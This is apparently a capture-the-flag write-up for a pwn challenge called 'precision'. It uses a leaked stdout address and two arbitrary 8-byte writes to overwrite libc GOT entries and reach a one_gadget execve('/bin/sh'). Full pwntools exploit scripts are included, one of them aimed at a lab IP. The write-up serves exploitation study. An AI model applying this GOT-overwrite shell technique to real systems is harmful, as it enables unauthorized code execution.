


> No description.

---

Given a binary `precision` and `libc.so.6` file.

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  void *ptr; // [rsp+8h] [rbp-8h]
  void *ptra; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("\nCoordinates: %p\n", stdout);
  ptr = (void *)getint();
  write(1, "\nFirst chance: ", 0xFuLL);
  fread(ptr, 8uLL, 1uLL, stdin);
  ptra = (void *)getint();
  write(1, "\nSecond chance: ", 0x10uLL);
  fread(ptra, 8uLL, 1uLL, stdin);
  perror("!");
  _exit(1337);
}
```

The `main` function is simple, it calls `setup` function and print the `stdout` address. Then it calls `getint` function to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `getint` function again to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `perror` function and `_exit` function.

```c
unsigned __int64 getint()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+48h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  write(1, "\n>> ", 4uLL);
  fgets(s, 64, stdin);
  return strtoul(s, 0LL, 10);
}
```

The `getint` function is simple, it reads 64 bytes from the `stdin` and convert the input to the unsigned long integer. So we can abritrary write to the memory.

Setting breakpoint to the `main` function and to analyze the `GOT` address.

```sh
pwndbg> b *main
pwndbg> r
pwndbg> got -p ./libc.so.6
```



Set breakpoint to each `GOT` address and analyze the registers. After some finding i found we can use `__strlen_avx2` to replace the `GOT` address to call some address.

```sh
pwndbg> b *0x7ffff7f30960
Breakpoint 2 at 0x7ffff7f30960: file ../sysdeps/x86_64/multiarch/strlen-avx2.S, line 50.
pwndbg> c
```



So now we can use `__strlen_avx2` to call the one gadget.

```sh
$ one_gadget -l1 ./libc.so.6
```

```
0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

So, `RCX`, `R9`, `RSI` and `R12` is empty, we can make this to make `RDX` to be NULL.

```sh
$ ROPgadget --binary libc.so.6 | grep "mov rdx, r12"
...
0x0000000000176df7 : mov rdx, r12 ; sub rdx, rsi ; call 0x283e0
...
```

And it call `__mempcpy_avx_unaligned_erms` got address. So we can replace the `__strlen_avx2` GOT to the address of `mov rdx, r12` gadget to clear the `RDX` register. and use `__mempcpy_avx_unaligned_erms` to call the one gadget.

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.39.142', 9004)
# r = remote('127.0.0.1', 9004)
libc = ELF('./libc.so.6')

# gdb.attach(r, '''
#         c
#             ''')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

__strlen_avx2 = libc_base + (0x7ffff7fac098 - 0x7ffff7d93000)
__mempcpy_avx_unaligned_erms = libc_base + (0x7ffff7fac040 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(__strlen_avx2).encode())
r.send(p64(libc_base + 0x176df7))

r.sendlineafter(b'>> ', str(__mempcpy_avx_unaligned_erms).encode())
r.send(p64(libc_base + 0xebcf8))

r.interactive()
```

## Bonus

Another solution to call the one gadget without meet the constraints (only works on remote).

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('10.10.39.142', 9004)
libc = ELF('./libc.so.6')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

one_gadget = libc_base + 0x10DBCA
got = libc_base + (0x7ffff7fac0b8 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendline(b'cat flag.txt') 

r.interactive()
```

## References

- [Code execution with a write primitive on last libc.](https://github.com/nobodyisnobody/docs/tree/6960bfb204f0cfe844d75809412b0f79313f105d/code.execution.on.last.libc)
- [code execution inferno](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno)
